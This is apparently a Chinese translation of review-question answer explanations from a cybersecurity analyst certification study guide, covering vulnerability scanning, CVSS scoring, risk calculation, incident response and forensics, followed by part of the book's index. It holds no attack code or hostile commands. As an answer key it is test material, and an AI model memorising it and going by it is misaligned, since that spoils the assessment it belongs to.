15. C. Ryan 应该先在测试环境中运行扫描，以识别可能的漏洞，并评估扫描本身是否会干扰业务活动。

16. C. 虽然报告和通信是漏洞管理的重要部分，但它们不包含在生命周期内。生命周期阶段是检测、修复和测试。


17. A. 持续监控结合了基于代理的漏洞检测数据，并在安全相关的配置更改发生时立即报告给漏洞管理平台，提供了对这些更改进行潜在漏洞分析的能力。

18. A. 攻击代理（`ZAP`）是一种代理服务器，可用于 Web 应用程序渗透测试，但它本身不是自动漏洞扫描工具。`Nikto` 和 `Arachni` 是专用 Web 应用程序漏洞扫描器的示例。`Burp Suite` 是用于渗透测试的 Web 代理。

19. A. 通用漏洞评分系统（`CVSS`）提供衡量和描述安全漏洞严重程度的标准方法。Jessica 可以使用此评分系统来对不同源系统提出的问题进行优先级排序。

20. B. 虽然任何具备资格的人员都可以进行内部合规扫描，但 PCI DSS 要求使用经 PCI SSC 批准的供应商进行外部合规扫描。

# 第 7 章：分析漏洞扫描

1. B. 尽管网络可以支持这些协议中的任何一种，当网络使用网络地址转换（`NAT`）映射公共和私有 IP 地址，但服务器无意向远程系统暴露其私有 IP 地址时，就会发生内部 IP 暴露漏洞。

2. C. 权限权限（`PR`）指示攻击者必须具备的账户访问类型。

3. C. 攻击复杂度为“低”表示利用该漏洞不需要任何特殊条件。

4. D. 影响指标值为高（H）表示机密性、完整性和/或可用性存在完全丢失的可能。

5. C. `CVSS 3.1` 是截至本书书于 2023 年出版时该标准的最新版本。

6. B. `CVSS` 可利用性评分使用攻击向量（`AV`）、攻击复杂度（`AC`）、所需权限（`PR`）和用户交互（`UI`）指标计算。漏洞年龄不包含在指标中。

7. B. `CVSS` 基础分在 4.0 到 6.9 之间的漏洞属于中等风险类别。

8. A. 当漏洞扫描器报告一个实际上并不存在的漏洞时，就会发生误报错误。

9. B. 数据库表不太可能包含评估漏洞扫描报告的相关信息。日志、`SIEM`报告和配置管理系统更有可能包含相关信息。

10. A. 微软于 2020 年停止了对 `Windows Server 2008 R2` 的支持，该操作系统极包含无法修复的漏洞。

11. D. 缓冲区溢出攻击发生在攻击者操纵程序向内存区域写入的数据量超过了该程序使用的分配内存。其目标是用指令覆盖内存中的其他信息，这些指令可能会被系统上运行的另一个进程执行。

12. B. 2016 年 10 月，安全研究人员发现了名为 `Dirty COW` 的 Linux 内核漏洞。该漏洞在 Linux 内核中存在了九年，极易利用，并为成功的攻击者提供了对受影响系统的管理控制。

13. D. `Telnet` 是一种不安全的协议，没有使用加密。提到的其他协议均被认为是安全的。

14. D. `TLS 1.3` 是一种支持 Web 流量的安全传输协议。列出的其他协议均存在缺陷，导致它们不稳定且不适合使用。

15. B. 数字证书旨在提供公共加密密钥，这不会导致错误。其他情况都是引起关注的原因，并在漏洞扫描期间触发警报。

16. C. `XSRF` 攻击的工作原理是基于一个合理的假设：用户通常同时登录许多不同的网站。攻击者随后在一个网站中嵌入代码，向第二个网站发送命令。

17. C. 此 URL 包含作为参数传递给 Web 程序的本地文件地址。这最可能是本地文件包含（`LFI`）利用，试图执行测试人员之前上传到服务器的恶意文件。

18. B. 入侵检测系统（`IDSs`）是用于检测网络或主机攻击的安全控制。物联网（`IoT`）、数据采集与监控控制（`SCADA`）系统和工业控制系统（`ICSs`）都与将物理世界对象连接到网络有关。

19. D. 在跨站脚本（`XSS`）攻击中，攻击者在网站上嵌入脚本命令，这些命令稍后将被访问该网站的无意访问者执行。其想法是欺骗访问信任网站的用户执行由不受信第三方放置在那里的恶意代码。

20. A. 在`SQL 注入`攻击中，攻击者试图利用 Web 程序访问数据库。分号和单引号是此类攻击的特征。

# 第 8 章：响应漏洞

1. C. 通过应用补丁，Jenkins 消除了漏洞。

2. C. 安装 Web 防墙消除了服务器的风险。

3. C. 安装 Web 防墙降低了攻击的概率。漏洞可能存在于 Web 程序中。

4. D. 攻击将导致数据库中存储数据的丢失，资产价值（`AV`）为 500,000。

5. C. 通过将资产价值（`AV`）（500,000）乘以影响因子（`EF`）（100%）来计算单次损失预期（`SLE`），结果为 500,000。

6. A. Aziz 的威胁情报研究确定该威胁每年发生的概率为 5%。即发生率（`ARO`）为 0.05。

7. B. 通过将单次损失预期（`SLE`）（500,000）乘以发生率（`ARO`）（0.05）来计算年度损失预期（`ALE`），结果为 25,000。

8. C. 安装新控制或升级现有控制是降低风险概率或影响的努力。这是风险缓解的示例。

9. B. 改变业务流程或活动以消除风险是风险规避的示例。

10. D. 保险策略通过将部分或全部财务风险转移给保险公司。

11. A. 当组织决定不再采取进一步措施处理剩余风险时，他们选择的是风险接受策略。

15. B. 攻击向量（即攻击者获取其目标的手段）可能包括`USB key drops`（U 盘投放）等。你可能想用“对手能力”来回答这个问题，但请记住定义：可能的威胁者所拥有的资源、意图或能力。这里的“能力”不是指他们能做什么，而是指他们具备做这些的能力。在这个例子中，攻击面可能包括组织的停车场，但这并不是一个攻击面的范例，而且该问题中并没有包含任何概率评估。

16. A. 行为评估在尝试识别内部威胁时非常有用。由于内部威胁通常难以正常行为区分，因此通常会使用执行操作的上下文，例如非工作时间登录、凭据滥用、从异常位置或以异常模式登录以及其他行为指标。

17. D. `STRIDE`、`PASTA` 和 `LIDDUN` 都是威胁分类工具的示例。`LIDDUN` 专注于隐私威胁，`STRIDE` 是微软的一个工具，而 `PASTA` 是一种以攻击者为中心的威胁建模工具。

18. B. 动态分析技术实际上在测试过程中执行代码。静态代码分析工具和技术则在不执行代码的情况下分析代码的结构和内容。编译是将源代码转换为可执行文件的过程，而反编译则是尝试反转这一过程。编译和反编译都不执行代码。

19. B. Adam 正在通过审阅源代码进行静态代码分析。动态代码分析需要运行程序，而变异测试和模糊测试（fuzzing）都是动态分析的类型。

20. C. Tiffany 正在对应用程序进行压力测试。压力测试故意超出应用程序的正常限制，以观察其对极端负载或其他超出正常能力的异常情况的响应。单元测试测试应用程序的单个组件，而回归测试是为了确保新版本不会引入旧漏洞。`Fagan testing`（Fagan 测试）是一种正式的代码检查方法。

## 第 9 章：建立事件响应计划

1. D. 前员工导致服务器崩溃是计算机安全事件的一个示例，因为这违反了该系统的可用性。用户访问安全文件以及管理员更改文件权限设置属于安全事件（events），但不是安全事故（incidents）。

入侵者闯入建筑可能是一个安全事件，除非他们执行了某些影响计算机系统的操作，否则不一定是计算机安全事件。

2. A. 组织在事件响应过程的准备阶段应该建立稳固的、深度防御的网络安全方法。在此阶段建立的控制旨在减少未来事件发生的概率和影响。

3. C. 安全信息和事件管理（`SIEM`）系统关联来自多个源的日志记录并尝试识别潜在的安全事故。

4. C. 中等功能影响的定义是：组织失去了为部分系统用户提供关键服务的能力。这准确地描述了 Ben 所面临的境地。只有当组织能够以降低的效率为所有用户提供所有关键服务时，才判定为低功能影响。只有当所有用户都无法使用某个关键服务时，才判定为高功能影响。

5. C. 遏制、根除和恢复阶段中的遏制协议旨在限制正在发生的安全事故造成的损害。

6. C. `Kill Chain`（杀链）包含了防御网络之外的行动，许多防御者无法对这些采取行动，这导致了该模型常见的批评之一。其他批评还包括对传统边界和基于反病毒技术的关注，以及缺乏对内部威胁的关注。

7. C. 在专有数据泄露中，未分类的专有信息被访问或外泄。受保护的关键基础设施信息（`PCII`）就是未分类专有信息的示例。

8. A. 网络时间协议（`NTP`）提供了一个通用的时间信息源，允许同步整个企业的时钟。

9. A. 组织的事件响应策略应包含清晰描述在响应活动安全事故时分配给`CSIRT`（计算机安全响应小组）的权限。

10. D. 网络攻击是从网站或基于 Web 的应用程序执行的攻击——例如，用于窃取凭据或重定向到利用浏览器漏洞并安装恶意软件的跨站脚本攻击（XSS）。

11. C. `Cyber Kill Chain`（网络杀链）的安装阶段专注于为攻击者提供持久的后门访问。当工具直接或间接地投入使用时发生“交付”（Delivery），而当漏洞被利用时发生“利用”（Exploitation）。“命令与控制”（`C2`）利用双向通信提供持续控制。

12. A. 事件响应策略为`CSIRT`提供了工作所需的权限。因此，它应该获得组织内最高级别的权威机构批准，最好是首席执行官（CEO）。

13. A. 潜在事故的检测发生在检测和分析阶段。列出的其他活动都是遏制、根除和恢复阶段的目标。

14. C. 当恢复时间不可预测时，会发生扩展恢复工作。在这些情况下，需要额外的资源和外部帮助。

15. D. 损耗攻击（attrition attack）采用暴力手段来破坏、损害或毁灭系统、网络或服务——例如旨在损害或拒绝服务的`DDoS`攻击，或针对身份验证机制的暴力破解。

16. C. 经验教训会议由未参与事件响应工作的第三方进行主持时效果最好。

17. D. 重建系统的程序具有很的技术性，通常包含在剧本（playbook）或程序中，而不是事件响应策略中。

18. B. 冒充攻击涉及用恶意替换良性内容——例如，欺骗（中间人攻击）、非法无线接入点和 SQL 注入攻击都涉及冒充。

19. C. 事件响应剧本包含详细的步骤说明，指导网络安全事故的早期响应。组织通常为高严重性和频繁发生的事件类型准备剧本。

20. A. 场景中描述的事件不属于可衡量的信息影响的安全事故。虽然笔记本电脑确实包含可能导致泄露的信息，但由于使用了加密保护笔记本电脑的内容，避免了这种泄露。

# 第 10 章：事件检测与分析

1. C. Susan 需要跟踪证据的监管链，并应确保维护适当的监管链。这对于处理可能参与法律诉讼的数据尤为重要。

2. C. Hui 知道她需要根据法律保留通知保留日志，并需要找到一种在维持组织运营的同时保留日志的方法。这样做可能会导致严重的法律后果。

### 3. A. 哈希值（Hashes）用于验证驱动映像和其他取证制品。对比原始文件和镜像的哈希值通常用于确保它们匹配。其他选项都无法验证驱动映像，而且加密驱动会修改它，破坏证据。

### 4. B. 流量模式和水平的基准将允许 Kathleen 确定流量是典型的，还是发生了异常情况。启发式算法（Heuristics）关注行为，而 Kathleen 想看的是流量水平是否不同，而不是行为。协议分析查看是否存在异常的协议或数据，而网络流日志对于确定哪些系统正在向何处发送流量以及通过什么协议非常有用。

### 5. B. 开放源数据（Open feed data）的质量和可靠性可能不同。这意味着 Renee 必须建立相关流程来评估她收到的 IoC（入侵检测指标）信息的质量和可靠性。开放源意味着它是免费的。开放馈源通常是活跃的，由于 IoC 的创建和更新，IoC 的详细程度会有所不同，无论馈源类型如何。

### 6. C. 主动监控（Active monitoring）侧重于使用`ping`和`iPerf`等工具主动收集数据。使用协议分析器的被动监控（Passive monitoring）收集网络流量，以及基于`SNMP`的路由器监控，而流（flows）则通过接收或收集记录信息来收集数据。

### 7. C. 系统映像通常不是 IOC 的一部分。恶意软件的哈希值可能是 IOC，IP 地址、主机名、域名以及基于行为的信息等常见细节也可能是。

### 8. C. 日志分析、流监控和部署`IPS`（入侵预防系统）都是帮助检测拒绝攻击的适当解决方案。`iPerf`是一种性能测试工具，用于建立网络连接上的可用最大带宽。

### 9. C. 虽然可能存在其他问题，但循环的计划任务最可能被设置为`cron`任务，Sameer 应该从那里开始搜索。`Task Scheduler`（任务计划程序）是 Windows 工具，系统日志可能包含也可能不包含有关进程的信息，搜索用户目录无法提供特定时间启动进程的指示。

### 10. B. 审查告报发生的原因是 Jim 的第一步。孤立的 IoC 可能并不指示入侵或攻击，因此验证告报很重要。由于警报而关闭系统可能会导致停机或阻止取证调查。没有任何迹象表明这是一种会被记录的网络攻击，问题中也没有指示要进行端口扫描。

### 11. D. 描述中这种来自全球许多系统的流量大幅增加的行为，如果是恶意的，最有可能是分布式拒绝服务攻击（DDoS）。Mark 的挑战在于判断这是否是攻击，还是发生了某些其他事件驱动流量流向他的网站——在某些情况下，病毒式传播的帖子很难与攻击区分来！

### 12. A. Valentine 知道未经授权的访问通常涉及创建未经授权的用户以及允许访问系统的身份验证事件。系统日志包含系统事件但不包含身份验证或用户创建信息。应用程序日志跟踪应用程序事件，并且通常也不会显示此类信息。

### 13. C. 从远程系统使用相同用户名但不同密码的一系列尝试登录是暴力破解攻击的常见迹象。虽然更复杂的攻击者会使用多个远程系统并在时间上分散尝试，但简单的暴力破解攻击看起来完全是这样。Sayed 可以通过与被使用用户名的管理员核实来验证这一点。

### 14. C. 最可能的答案是链接失效了。设置错误的采样率无法提供良好的流量视图，而 DDoS 攻击更有可能显示大量流量。`SNMP` 是监控工具，不会导致流数据发生。

### 15. B. 系统日志通常与应用程序日志分开处理。可用/不可用（Up/down）、性能、事务日志和服务日志都是用于确保应用程序运行运行的常见监控形式。

### 16. A. 比典型用户执行得更快速的操作可能是机器人行为的迹象。如果执行操作的用户通常不运行脚本或连接到多台机器，Greg 可能想要进行更深层的调查，包括检查远程系统上的日志以查看尝试了何种身份验证。仅凭`SSH`连接并不是端口扫描、权限提升或拒绝服务攻击的迹象。

### 17. C. 攻击者很可能尝试从整个数据库中收集信息，这意味着缓存命中（cached hits）将无法构成全部查询量。因此，数据库的磁盘读取可能比缓存命中数的增加更重要的入侵指标，因为增加可能仅仅是更典型的使用情况。

### 18. C. Valerie 专门在寻找网络相关的 IoC，而系统内存消耗是主机或系统相关的 IoC，而不是网络相关的 IoC。

### 19. C. Alex 流程的第一步应该是识别填充驱动器的文件位于何处以及是什么。简单的搜索通过对大目录和文件排序可以帮助实现这一点。Windows 没有记录此点的文件系统日志，且安全日志侧重于安全事件而非文件系统信息。搜索已更改的文件需要一种跟踪更改的工具，而这并不是 Windows 默认安装包的一部分。

### 20. B. Joseph 创建了一个用户行为基准，这将允许他看到用户运行的正常行为和命令是否存在异常。模式匹配、指纹识别和用户建模不是描述这一过程的术语。

# 第 11 章：遏制、根除与恢复

### 1. A. 事件响应的遏制、根除和恢复阶段包含了旨在尽量减少事件造成的损害并尽快恢复正常运行的积极措施。

### 2. C. NIST 建议使用六项标准来评估遏制策略：资源的潜在损害、证据保护的需求、服务的可用性、所需的时间和资源（包括成本）、策略的有效性和解决方案的持续时间。

### 3. C. 在分段（segmentation）方法中，怀疑系统被放置在一个网络中，其对其他网络资源的访问非常有限。

### 4. B. 在隔离（isolation）策略中，隔离网络直接连接到互联网或受到防火墙规则的严格限制，以便攻击者可以继续控制它但无法访问任何其他网络资源。

### 5. D. 在移除（removal）方法中，Alice 为了取证目的保持系统运行，但完全切断了它们与其他网络（包括互联网）的访问连接。

### 6. A. 沙箱（Sandboxes）是隔离工具，用于将攻击者限制在一个环境中，他们在环境中认为认为正在进行攻击，但实际上在一个无害的环境中操作。

### 7. C. Tamara 的首要任务应该是遏制攻击。这可以防止攻击扩散到其他系统，并可能可能停止敏感信息的外泄。只有在遏制攻击后，Tamara 才应该进行根除和恢复活动。识别攻击源的优先级较低。

### 8. A

在事件调查期间，团队可能会根据攻击者使用的工具、技术和战术遇到新的入侵指标（`IOCs`）。作为经验教训回顾的一部分，团队应该清晰地识别出任何新的`IOCs`，并对更新组织的安全监控计划提出建议，以将这些`IOCs`纳入其中。这将减少未来类似事件逃避关注的概率。在遏制、清除和恢复期间，应考虑范围、影响和系统重装。

### 9. C

理解攻击的根源对于事件恢复工作至关重要。分析师应检查所有所有可用信息，以帮助重构攻击者的行为。这些信息对于修复安全控制和防止未来发生类似攻击至关重要。

### 10. C

Lynda 应该参考图 11.7 中的流程图。根据该图表，对于包含高安全风险信息且将在组织内重复使用的介质，其适当的处置方式是进行数据清除。

### 11. B

如果需要，新的防火墙规则将在清除和恢复阶段实施。验证阶段包括验证账户和权限、验证日志记录是否正常工作以及进行漏洞扫描。

### 12. D

清除的主要目的是移除可能遗留在组织网络上的任何事件遗迹。这可能包括从网络中删除恶意代码、对受损的介质进行净化以及保护受损的用户账户。

### 13. B

书面事件报告有许多潜在用途。首先，它创建了关于事件的机构记忆，这在开发新的安全控制和培训新的安全团队成员时非常有用。其次，如果由于事件导致了法律诉讼，它可以作为事件的重要记录。这些报告应该进行分类，并且不向外部实体披露。

### 14. D


恶意软件签名通常不会包含在证据日志中。日志通常包含识别信息（例如，计算机的位置、序列号、型号号、主机名、MAC 地址和 IP 地址）、在调查期间收集或处理证据的每个人员的姓名、职位和电话号码、每次处理证据的时间和日期（包括时区），以及存储证据的位置。

### 15. D

即使将系统从网络中移除，也不能保证攻击不会继续进行。在本章给出的示例中，攻击者可以在服务器上运行脚本，检测服务器何时被从网络中移除，然后开始破坏存储在服务器上的数据。

### 16. A

图 11.7 中的数据处置流程图规定，任何离开组织控制的包含高度敏感信息的介质必须销毁。Joe 应该购买新的替换设备给承包商。

### 17. B

事件报告除了其他信息外，应该包含事件年、影响评估以及经验教训的记录。事件响应工作通常不侧重于发现攻击者的身份，因此此类信息不会出现在事件报告中。

### 18. D

NIST SP 800-61 是`计算机安全事件处理指南`。NIST SP 800-53 是《联邦信息系统和组织的安全与隐私控制标准》。NIST SP 800-88 是《介质净化指南》。NIST SP 800-18 是《联邦信息系统安全计划的制定》。

### 19. A

将系统重置为出厂状态是数据擦的一个示例，但这并不是组织所需要的。

### 20. A

仅移除系统无法阻止攻击者。在事件响应（IR）循环的所有阶段都应该与利益相关者进行通信。

# 第 12 章：报告与沟通

### 1. C

组织需要确保将发现与相关的利益相关者共享。

### 2. B

经验教训练习用于确保组织能够利用从事件中获得的发现和经验。

### 3. A

安全运营和监督可能希望摄入漏洞管理数据。

### 4. D

如果没有上下文信息，仅仅知道警报的数量并不是一个有用的指标。

### 5. B

平均检测时间、平均响应时间和平均修复时间提供了更有用的信息，尽管每项信息都需要上下文支持。

### 6. D

服务水平协议（`SLAs`）通常有性能目标，如果系统因打丁而离线，这些目标可能无法实现。

### 7. B

Ian 想要确保整个基础设施的补丁，这表明需要一个大规模部署补丁的配置管理工具。

### 8. A

影响评估侧重于描述事件对组织的意义，包括财务、声誉或其他影响。

### 9. C

谅解备忘录（`MOUs`）通常与性能或运行目标相关，如果系统离线，这些目标可能无法实现。

### 10. C

日志等详细证据通常作为证据附在附录中。

### 11. C

介质培训是有用的，对培训的需求可能是事件后总结得的经验教训。

### 12. C

根因分析练习的设计目的并不是为了确定谁该承担责任。相反，它们侧重于识别根源以便对其进行修复。

## 14. C. 内部要求不太可能在特定时间线内要求事件报告，因为它们通常承认了事件响应的复杂性。虽然媒体可能希望在特定时间范围内获得报告，但这并不意味着必须做出响应。相反，在列出的选项中，对于大多数组织而言，合规性是在特定时间线内进行报告的主要驱动因素。

## 15. B. Jim 拥有的最佳选择可能是识别补偿控制。这在长期来看可能不是一个合适的解决方案，Jim 的组织可能需要更改其服务或设计，以便实施安全修复。组织治理不会改变功能性影响，题目中没有提到遗留系统，也没有列出服务水平协议（SLA）。

## 16. A. NIST 承认处理媒体事务的必要性，并建议进行媒体培训、建立向媒体简报程序、维护事件响应（IR）状态文档或声明、为员工应对媒体接触和信息请求做好准备，并作为 IR 练习的一部分为事件响应人员举办持续的演练。

## 17. B. 事后活动（Post-Incident Activity）通常包含 NIST IR 生命周期中的事件报告。

## 18. C. Chris 知道零日漏洞意味着扫描器没有针对该漏洞的规则或检测配置。这意味着以前运行的报告和扫描将不会显示它。他们的供应商可能会针对该零日漏洞发布检测配置或规则，但从发布到请求之间的时间非常短，这不太可能已经发生。重新运行报告不会显示未知的漏洞，而如果存在规则，零日漏洞是可以被检测到的。

## 19. A. Mikayla 知道，意识提升和教育是确保员工意识到补丁重要性的第一步。她的第一步应该是确保适当的意识提升、教育和培训。没有迹象表明业务需求发生了变化，补偿控制应仅在需要时使用，而不应作为一种常规做法，而且惩罚不太可能解决底层问题。

## 20. D. Geeta 应该识别一种补偿控制，在对系统功能影响最小的范围内妥妥地确保系统的安全性。示例可能在逻辑上于设备前放置网络防火墙、将其移动到隔离且安全的网络分段或 VLAN，或者或者其他添加保护。将漏洞标记为无法修复并不能保护系统或公司，关闭它将影响组织的功能，而安装补丁可能会导致功能问题或防止供应商支持。

## Chapter 13: 执行取证分析与事件响应技术

1. B. `dd` 以位级的 `RAW` 格式创建文件。`EN01` 是 EnCase 取证文件格式，`OVF` 是虚拟化文件格式，而 `ddf` 是虚造的答案。

2. A. 一旦完成根原因分析，通常会记录教训，以避免未来出现类似的问题。架构图和更新后的流程可能是这些教训的一部分。当前法律留存（legal holds）的列表通常不是该过程的一部分。

3. C. 根原因分析在实施控制措施或修复之前可能涉及成本效益分析，但风险评估通常是一个独立的过程。

4. C. 写保护保护器（Write blockers）确保在创建取证副本时不会对源驱动器进行任何更改。阻止读取将阻止你复制驱动器，磁盘克隆机可能内置或内置写保护功能，而哈希验证对于确保内容匹配有用，但不能阻止源驱动器发生更改。

5. B. 法律留存是一种用于保存与待决诉讼相关或预期可能发生诉讼的所有数据的过程。向律师支付聘金（retainer）是为了让他们随时待命工作。另外两个术语是为此题虚造的。

6. B. 经常进行根原因分析是为了识别哪里出了问题以及为什么出错。然后识别并应用教训，以确保组织未来不再遇到相同的问题。责任归属不是取证程序的一部分。由于哈希是单向函数，无法反推。法律留存与法律行动有关。

7. A. 时间线（Timelines）是进行此类调查时最有用的工具之一。

8. D. 由于 Danielle 在克隆之前没有对驱动器进行哈希处理，无法确定问题发生。如果她在克隆之前运行了 `MD5sum`，就可以验证原始磁盘。

9. D. `Volatility Framework` 设计用于 Windows、macOS 和 Linux，并提供深度内存分析。`LiME` 和 `fmem` 是 Linux 工具，而 `DumpIt` 是 Windows Windows 工具。

10. D. Lisa 发现了证据链的问题。每次传输、取证行动或其他事件都应记录在案。

11. B. 验证数据完整性可以确保镜像或文件是可靠的，没有被故意或无意地修改。最后，法律留存需要数据保护，而不是数据完整性验证。

12. D. 当手机无法进行取证镜像或访问卷/文件系统时，需要手动访问。手动访问需要人工查看，并保留照片和笔记。

13. A. `CCleaner` 是一种清理工具，会清除历史记录、Cookie 和其他缓存数据，并可能阻碍取证。`CCleaner` 可能是反取证活动的迹象。它不是全盘加密工具或恶意软件壳，也不会修改 MAC 时间。

14. B. 实时镜像通常不会捕获未分配空间，可能导致数据丢失。工具的残留数据、镜像制作期间内存和磁盘内容的变化以及恶意软件检测到工具都是可能的问题。

15. D. Jeff 没有创建镜像，因此无法验证驱动器的证据链。这意味着他无法证明驱动器是原始设备的副本。由于我们不知道原始驱动器的校验和，因此不存在错误的校验和或哈希不匹配——没有原始可以对比。

16. A. 在程序运行时镜像系统最有利于 Jeff 从内存中捕获加密密钥或解密数据。关后的离线镜像可能会导致必须处理加密文件。暴力破解通常很慢且可能不成功，导致系统崩溃可能会导致数据损坏或不存在。

17. A. `tcpdump` 工具是一个命令行数据包捕获工具，存在于许多 Linux 系统中。`Wireshark` 是一个适用于大多数操作系统的 GUI 工具。`Netdd` 和 `snifman` 是为此题虚造的。

18. A. Ben 正在维护证据链文档。Chris 担任 Ben 所采取行动的验证者，并作为该过程的见证人。

19. D. 虽然 `AES` 确实有一种哈希模式，但 `MD5`、`SHA1` 以及 `FTK` 等其他商业工具内置的哈希工具常用于取证哈希。

20. B. 云环境和虚拟化环境通常是临时的（瞬态的），因此很难对其进行取证。如果你拥有云环境、虚拟化或容器化环境，请确保你已经考虑过如何进行取证，以及你可能需要使用哪些数据保护技术。

# 索引

## A

* 异常账户活动，121

* 异常 OS 进程行为，96

* `AbuseIPDB`，114

* 可接受使用政策 (AUP)，327

* 访问，通用隐私原则 (GAPP)，6

* 访问控制列表 (ACL)，15, 181

* `AccessChk`，98

* 意外威胁，9

* 账户

    * 引入新账户，101, 104

    * 管理策略，327

    * 异常行为，383–384

* 提取

    * 数据提取，470–472

    * 证据提取，388–389, 405

* 行动计划，426

* 目标行动，作为洛克希德·马丁网络杀链链的阶段，365, 366

* 主动防御，用于威胁狩猎，151

* Active Directory 联合服务 (AD FS)，61, 62–63

* 主动监控，81–82

* 主动侦察，161–162

* 主动扫描，212

* 高级入侵检测环境 (AIDE)，92

* 高级持续性威胁 (APT)，9, 146, 357

* 高级 RISC 机器 (ARM)，45

* 对敌性威胁，9

* 攻击者能力，305

* 不良事件，344

* 受影响主机，425

* 非洲网络信息中心 (AFIRINC)，186

* 基于代理的 NAC 解决方案，13

* 基于代理的扫描，217

* 无代理 NAC 解决方案，13

* 敏捷开发模型，315–316

* 空隙，49

* 告报量，436–437

* 告报，347

* AlienVault 的开放威胁交换 (OTX)，153, 379–380

* 美国互联网数字注册机构 (ARIN)，187

* 分析与需求定义阶段，软件开发生命周期 (SDLC) 中，311

* 分析

    * 代码，322

    * CVSS 向量，285–287

    * 邮件，115

    * 文件，119

    * 图像，474–478

    * 失陷指标 (IOCs)，150

    * 网络事件，78–90

    * 钓鱼活动，129–130

    * 风险，294–300

    * 漏洞工具，452

    * 漏洞扫描，245–291

    * Angry IP Scanner，171–172

* 年化损失预期 (ALE)，297

* 年化发生率 (ARO)，297

* 异常活动，102–103

* 基于异常的检测，85

* 异常响应

    * 遏制、恢复，507–509

    * 用于事件响应的取证分析与技术，511–512

    * 事件检测与分析，505–507

    * 事件响应计划，503–504

    * 恶意活动，492–493

    * 侦察与情报收集，495–497

    * 报告与通信，509–511

    * 系统与网络架构，490–491

    * 威胁情报，493–495

    * 漏洞，501–503

    * 漏洞管理计划，497–499

    * 漏洞扫描，499–500

* 反恶意软件工具，95

* 反病毒软件工具，95

* 安全设备，110–111

* 应用的失陷指标，150

* 应用与服务响应计划活动，129

* 应用日志，101, 104, 183

* 应用程序接口 (APIs)，29

* 应用程序相关问题，100–104

* 应用程序

    * 行为分析，103

    * 错误监控，103

    * 在快速应用开发 (RAD) 模型中的生成，317

    * 监控，100–101

    * 打丁，407–408

* 应用威胁情报，148–151

* Arachni，235

* 架构，硬件，45

* 人工智能 (AI)，114

* 亚太网络信息中心 (APNIC)，187

* 评估

    * 攻击框架，361

    * 安全，6

    * 软件，322

    * 供应链，299

    * 威胁情报，140

* 资产关键性，210

* 资产发现，160

* 资产清单，209

* 资产价值 (AV)，260, 297

* 攻击复杂度 (AC) 指标，250

* 攻击框架

    * 关于，361

    * 评估，366

    * 开发测试策略，367

    * 入侵分析钻石模型，362

    * 洛克希德·马丁网络杀链，364

    * MITRE ATTCK 框架，361, 363

    * 统一杀链，366

* 攻击面，50, 69, 308

* 攻击面削小，308

* 攻击向量 (AV) 指标，250

* 攻击者

    * 识别，405

    * 隔离，403

* 属性释放请求，59

* 耗损，作为威胁，357

* 澳大利亚信号局网络安全中心，138

* 身份验证、授权与审计 (AAA)，53

* 身份验证，281–283, 320, 321

* 验证器，13

* 自动指标共享 (AIS) 计划 (CISA)，137

### 自动化

* 网络安全，28

* 应急响应剧本部分，30–31

* 自治系统 (AS) 编号，187

* Autopsy，452

* 可用性，CIA 三要素中的之一，4–5

* 可用性指标，252–253

* 避免暴力破解，467–468

* 员工意识，428

* AWS 弹性计算云 (EC2)，230

## B

* 待办事项，316

* 带宽消耗，83–84

* 计算基础分，255

* 基线，85

* Bash，122

* 信标回传，84–85

* 行为评估，306

* 基于行为的检测，85

* 软件保障的最佳实践，310–318

* 生物识别因素，多因素身份认证 (MFA) 以及，54

* 博客，139

* 边界网关协议 (BGP)，185

* 类机器人行为，384

* 自带设备办公 (BYOD)，465

* 避免暴力破解，467–468

* 缓冲区溢出，264–265

* 漏洞赏金计划，308–309

* Burp Proxy，237

* Burp Suite，237

* 业务影响分析 (BIA)，297

* 快速应用开发 (RAD) 模型中的业务建模，317

* 业务流程中断，430

* 业务需求变更，428

## C

* 线缆，450

* 缓存设备，如本地架构，47

* CAINE，452

* 计算

    * 基础分，255

    * 可利用性评分，255

    * 影响评分，254

    * 影响子分 (ISS)，254

* 相机，450

* 持卡人数据 (CHD)，68

* 数据取证，452–453

* 类别

    * CVSS 基础分，255–256

    * 安全控制，303–304

* 手机取证，456

* 互联网安全中心 (CIS)，41, 207–208

* 集中认证服务 (CAS)，56

* 证书问题，271–273

* 证书吊销，67

* 监管链，388, 454, 467

* 变更控制管理，411

* 变更管理，227, 309

* 通用隐私原则 (GAPP) 的选择，6

* CIA 三要素，4–5

* 密码，270–271

* Cisco

    * 路由器，27

    * Talos 智能，306

    * 威胁站点，137

* 分类

    * 事件分类，356–361

    * 严重性，358–361

    * 威胁分类，146–148, 305, 357

* 安全处置的明空选项，408

* 闭源情报，139–140

* 云

    * 基础设施扫描工具，229–233

    * 映射与扫描，163

    * 网络架构，48–49

    * 服务取证，460–461

* 云访问安全代理 (CASBs)，49, 65

* 行为准则/道德，327

* 代码/编码

    * 分析，322–325

    * 爆破，25

    * 安全性，319–321

    * 安全实践，320–321

    * 测试，322–325

* 收集

    * 通用隐私原则 (GAPP) 的，6

    * 陷指标 (IOCs)，150

* 命令与控制 (C2)，作为洛克希德攻击链的阶段，365–366

* 命令与控制 (C&C) 系统，80, 84, 15

* 通用配置枚举 (CCE)，220

* 通用平台枚举 (CPE)，220

* 通用漏洞与披露 (CVE)，136, 220

* 通用漏洞评分系统 (CVSS)

    * 关于，221, 225, 249, 250

    * 攻击复杂度 (AC) 指标，250–251

    * 攻击向量 (AV) 指标，250

    * 可用性指标，252–253

    * 机密性指标，252

    * 完整性指标，252

    * 向量解释，253–254

    * 需权限 (PR) 指标，251

    * 范围指标，253

    * 评分汇总，254–256

    * 用户交互 (UI) 指标，251

* 通信

    * 渗透测试的结果，24

    * 漏洞管理，222

    * 社区威胁情报，145–146

    * 补偿控制，20, 225, 304, 331, 407, 427

    * 编译器，35

    * 合规报告，426

* 不安全的组件，320

* 计算机应急响应小组 (CERT)，139

* 计算机安全事件处理指南，400, 403, 406


# 计算机安全事件响应小组 (CSIRTs)，345

# 计算环境管理，307

# 置信度值，在钻石攻击模型中，362

# 机密性，CIA 三要素中的之一，4–5

# 机密性指标，252

## 配置

- 配置分析，175–183
- 默认配置，320
- 配置管理，259, 309, 427
- 修改，384–385
- 网络设备，177
- 漏洞扫描，213–221
- 弱配置，320

# 通用隐私原则 (GAPP) 的同意，6

# 消费者，57

# 容器取证，461–462

# 容器化，39–40

## 遏制、根除与恢复

- 关于，348–349, 398, 412–413
- 复习题答案，507–509
- 包含损坏，398–406
- 考试要点，413
- 事故消除与恢复，406–409
- 实验练习，414–416
- 响应，410–412
- 复习题，417–420
- 验证数据完整性，410

# 内容过滤，如本地网络架构中的，47

# 上下文感知，259–260

# 上下文部署 (CD)，318

# 持续集成 (CI)，318

# 持续监控，222, 327

# 措施，审查，12

